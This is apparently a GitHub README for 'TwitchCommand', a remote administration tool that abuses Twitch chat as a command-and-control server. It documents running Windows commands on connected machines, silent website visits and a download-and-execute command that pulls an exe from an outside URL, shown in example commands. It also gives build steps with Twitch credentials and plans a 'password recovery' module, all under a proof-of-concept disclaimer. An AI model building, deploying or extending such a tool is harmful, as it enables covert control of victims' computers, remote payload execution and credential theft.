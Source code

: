 # TwitchCommand [![Open Source Love](https://badges.frapsoft.com/os/v2/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/) [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands. Inspired by the [Slackor](https://github.com/Coalfire-Research/Slackor) project. Make sure to check it out.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`. May throw `Win5 Error` if the user is prompted for UAC.

`visit`  Silently visits a website. Structured as `visit link`


# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action true`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.
- True is just a placeholder value as I was too lazy to scrub \r\n off the final value. You can write anything.

An example cmd command would be:

`!act all cmd start. true`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe true`

It currently only supports exe files.

# Creating the program.
### Coming soon: a builder.
Making the program is quite simple. 
- Change the NICK value on line 10 to your Twitch username.
- Change the PASS value on line 11 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 12 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.
- Change CLIENT_ID value on line 20 to an Imgur api client id. This is only necessary if you want to use the `screen` command. THis command is currently not in the program as it was added too early and is not ready. It will be coming soon.

# Upcoming features
- More modules (password recovery and screenshot coming soon.)
- Download & execute supporting all file types.
- Removing the requirement for 'true' in commands (proper scrubbing.)
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.
